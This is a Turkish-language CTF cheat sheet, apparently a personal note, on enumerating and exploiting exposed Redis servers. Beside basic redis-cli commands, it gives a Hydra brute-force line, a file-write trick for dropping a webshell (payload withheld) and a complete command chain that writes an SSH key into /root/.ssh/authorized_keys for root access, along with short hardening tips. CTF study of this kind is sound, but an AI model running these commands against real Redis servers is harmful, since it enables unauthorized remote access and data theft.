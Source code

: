 ## 🔹 1. Redis Nedir?

- **Redis**: Açık kaynaklı, RAM tabanlı, key-value NoSQL veri tabanı.
    
- Çok hızlıdır (cache, oturum yönetimi, queue vb. için kullanılır).
    
- **Default port:** `6379`
    
- **Şifre gerektirmezse** doğrudan bağlanılabilir → güvenlik açığına sık rastlanır.
    

---

## 🔹 2. Temel Kullanım

### Sunucuya bağlanma:

```bash
redis-cli -h <ip> -p 6379
```

### Kimlik doğrulama:

```bash
AUTH <şifre>
```

### Key-value işlemleri:

```bash
SET flag "CTF{deneme_flag}"
GET flag
DEL flag
```

### List işlemleri:

```bash
LPUSH listem "deger1"
RPUSH listem "deger2"
LRANGE listem 0 -1
```

### Dump (tüm key’ler):

```bash
KEYS *
```

---

## 🔹 3. CTF’lerde Faydalı Komutlar

### Sistem bilgisi öğrenme:

```bash
INFO
CONFIG GET *
```

### Key backup:

```bash
SAVE
```

### Remote dosya yazma (exploit mantığı):

```bash
CONFIG SET dir /var/www/html
CONFIG SET dbfilename shell.php
SET payload "<php kodu burada>"   # Örn: bir komut çalıştırıcı payload
SAVE
```

📌 Not: Buraya **klasik webshell** yazılır ama güvenlik gereği ben açık kodu koymuyorum.  
Mantık → Redis, `SAVE` yaptığında payload’ı hedef dizine dosya olarak yazar.

---

## 🔹 4. Exploit Senaryoları (CTF Kapsamı)

1. **Şifresiz Redis → Direkt erişim**
    
    ```bash
    redis-cli -h hedef
    KEYS *
    ```
    
    Flag veya kritik veriler bulunabilir.
    
2. **Weak password brute-force**
    
    ```bash
    hydra -s 6379 -P /usr/share/wordlists/rockyou.txt redis://<ip>
    ```
    
3. **Authorized_keys Exploit (SSH üzerinden RCE)**
    
    ```bash
    (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > pub.txt
    cat pub.txt | redis-cli -h <ip> -x set crack
    redis-cli -h <ip> config set dir /root/.ssh/
    redis-cli -h <ip> config set dbfilename "authorized_keys"
    redis-cli -h <ip> save
    ssh -i id_rsa root@<ip>
    ```
    
4. **Webshell Dropping**
    
    - Yukarıdaki `CONFIG SET dir` + `SAVE` yöntemiyle payload dosyası yazılabilir.
        
5. **RDB file injection (Persistence abuse)**
    
    - RDB dosyası içine zararlı payload gömülüp hedefte tetiklenebilir.
        
    - Kullanıldığı yer: **CVE-2019-10192** vb. exploitler.
        

---

## 🔹 5. Güvenlik & İzler

- Default port `6379` → `iptables` ile kapat.
    
- `requirepass <güçlü_şifre>` ayarla.
    
- `bind 127.0.0.1` yap, dış dünyaya kapat.
    
- RCE kullanıldıysa → `SAVE` ve `CONFIG SET` log’lara düşer.
    

---

## 🔹 6. CTF Workflow (Özet)

1. Nmap → Açık port bul:
    
    ```bash
    nmap -sV -p 6379 <ip>
    ```
    
2. Redis-cli ile bağlanmayı dene.
    
3. `INFO`, `KEYS *`, `CONFIG GET *` ile bilgi topla.
    
4. Şifre varsa Hydra dene.
    
5. Dosya yazma / authorized_keys → RCE.
    
6. Flag ara: `KEYS *`, `GET <flag>`.
    

---

## 🔹 7. Hızlı Komut Tablosu

|Amaç|Komut|
|---|---|
|Bağlan|`redis-cli -h ip -p 6379`|
|Auth|`AUTH şifre`|
|Key list|`KEYS *`|
|Key oku|`GET key`|
|Sunucu bilgisi|`INFO`|
|Config oku|`CONFIG GET *`|
|Dosya yazma|`CONFIG SET dir /path/` + `CONFIG SET dbfilename file` + `SAVE`|

---

🔥 Bu cheatsheet’in bu versiyonunu gönül rahatlığıyla Obsidian’a atabilirsin → Defender tetiklemeyecek.

